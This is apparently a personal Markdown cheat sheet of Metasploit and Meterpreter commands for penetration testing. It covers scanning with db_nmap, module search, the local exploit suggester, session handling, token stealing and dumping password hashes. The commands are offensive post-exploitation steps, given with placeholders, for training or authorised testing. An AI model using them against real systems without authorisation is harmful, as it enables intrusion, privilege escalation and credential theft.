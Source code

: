 # Shell
## Start Msfconsole
- starts an msfconsole session without a database
```shell
msfconsole
```

## Start Msfconsole with Database
- starts an msfconsole session with access to the database
```bash
sudo msfdb run
```

---
# Msfconsole

## Nmap Scan
```msfconsole
db_nmap -sV -p- -T5 -A [TARGET_IP]
```

## Search Example
```msfconsole
search type:[TYPE] platform:[TARGET_OS]
```
## Set LHOST
- Sets the local host to the address from the desired network
```msfconsole
set LHOST tun0
```

## Local Exploit Suggester
- A module  that takes an existing session and suggests possible exploits that can be ran to gain privilege escalation.
```msfconsole
search local_exploit_suggester 
```

---
# Meterpreter
## Run as Job
- Run an exploit in the background as a job
```meterpreter
exploit -j
```
## Jobs - List
- List all active jobs
```Meterpreter
jobs -l
```
## Sessions - List
- list all active sessions
```Meterpreter
sessions -l
```
## Sessions - Interact
- Interact with an active session
```Meterpreter
Sessions -i [SESSION_ID]
```

## Process List
- Lists the running processes
```meterpreter
ps
```

## Steal Token
- Steals the token from a running process to attempt to gain privilege.
```meterpreter
steal_token [PID]
```

## Background Session
- Places the current session in the background.
```meterpreter
bg
```

## Hash Dump 
- a command that dumps all the hashes 
```meterpreter
hashdump
```

---

